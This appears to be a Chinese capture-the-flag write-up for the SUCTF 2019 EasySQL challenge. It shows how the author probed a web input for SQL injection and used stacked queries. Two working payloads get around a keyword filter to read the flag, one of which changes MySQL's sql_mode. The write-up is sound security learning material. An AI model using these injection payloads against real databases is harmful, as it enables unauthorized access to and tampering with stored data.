


# [SUCTF 2019]EasySQL

【SQL注入】

#### 方法一

打开题目，看到输入框便直接进行注入点的试探。

```txt
1			// 这里输入任意的数字都会得到一条回显（0除外）
0	1’		// 输入0 1' 1'#都没有回显
1"	1' or 1=1#		// 回显Nonono（看不大懂）
```
因为回显的不同显然应该是有注入点的，但是不论输入`order by, union, select, from`都回显 Nonono ，八成是被过滤了吧！（大小写，双写也都不得行）再次尝试堆叠注入。
```txt
1;show databases;
1;show tables;
```

尝试查看表结构`1;desc Flag;`，依旧 Nonono ，离谱，拿 flag 也过滤？！

回想所有的尝试，**任意数字有数组回显，0 、任意字符、关键字不行，flag 也不行**。猜测SQL语句：
```sql
select $post['query'] || flag from Flag;
# 因为
# 只有一个表Flag，那查询的必是这个表；
# 输入任意数字可以，任意数字都可以被理解为布尔 1 ，而只有 0 例外；（任意字符当然也不行了）
# 关键字不行是被过滤，且把 flag 也作为关键字过滤。
// （这里是看过wp理解的，本人脑洞还是不够大）
```
构造Payload：`*,1`，构成的SQL语句：`select *,1 || flag from Flag;`。

得到 flag 。


#### 方法二
修改 MySql 配置参数，使`||`作为**字符串连接操作符**而不是**逻辑运算符**执行。

Payload：`1;set sql_mode=PIPES_AS_CONCAT;select 1`，得到 flag 。

（可以看出最终结果将`select 1`和`select flag from Flag;`的结果拼接到了一起）



> 参考
> https://blog.csdn.net/weixin_42373127/article/details/88866710
> https://blog.csdn.net/RABCDXB/article/details/111398725